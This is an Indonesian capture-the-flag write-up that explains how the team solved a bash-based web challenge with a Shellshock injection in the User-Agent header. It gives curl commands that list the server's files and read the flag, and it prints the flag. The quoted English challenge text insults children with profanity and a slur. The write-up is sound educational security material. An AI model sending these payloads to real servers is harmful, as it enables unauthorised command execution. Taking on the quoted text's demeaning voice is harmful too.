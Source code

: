 Deskripsi soal: 

<pre>
"How did I end up here?" is the only question you can think of since you've become a high school teacher. 
Let's face it, you hate children. Bunch of egocentric retards. Anyway, you are not going to take it anymore. 
It's time to have your little midlife crisis right in the face of these fuckers.
Good thing that you're in the middle of some project days and these little dipshits wrote a simple message storing web application. 
How cute. It's written in bash... that's... that's... aw- no... bashful. 
You've got the source, you've got the skills. 0wn the shit out of this and show them who's b0ss.
</pre>

URL: https://school.fluxfingers.net:1503

Peserta diberikan soal dimana sebuah website dapat meng-handle Bash script. Sebenarnya kami tidak berhasil tepat waktu menyelesaikan tantangan yang satu ini tepat waktu, tapi tidak ada salahnya kami membagikan cara penyelesaiannya.
<br />
Jadi, pada soal tantangan kali ini kami mencoba untuk melakukan command injection melalui header tepatnya pada sisi User-Agent. Kami menggunakan trigger exploit <b>Shellshock</b> untuk mengetes kerentanan apakah bash yang terdapat pada situs ini memiliki kerentanan akan serangan tersebut.
<br />
Kemudian , untuk mencoba trigger exploit tersebut kami menggunakan curl untuk menjalankan custom User-Agent yang sebelumnya sudah kami beri trigger exploitnya. Selanjutnya kami menjalankan perintah untuk melaksanakan directory listing pada direktori /bin <br />
```bash
curl -A "() { :;}; /bin/ls;" https://school.fluxfingers.net:1503/?sessid=sessid_anda
```
Voila! terdapat beberapa file - file yang menarik disini, berarti ini menunjukkan trigger exploit tersebut berjalan dengan baik.
<pre>
404.sh
flag
home.html
home.sh
index.sh
</pre>
Terlihat file <b>flag</b> yang muncul dimana kami yakin itulah file yang menyimpan kalimat dari flag itu sendiri. Maka, perintah terakhir yang dijalankan ialah :
<br />
```bash
curl -A "() { :;}; /bin/cat flag;" https://school.fluxfingers.net:1503/?sessid=sessid_anda
```
<br />
Didapatkan flag: <b>flag{as_classic_as_it_could_be}</b>
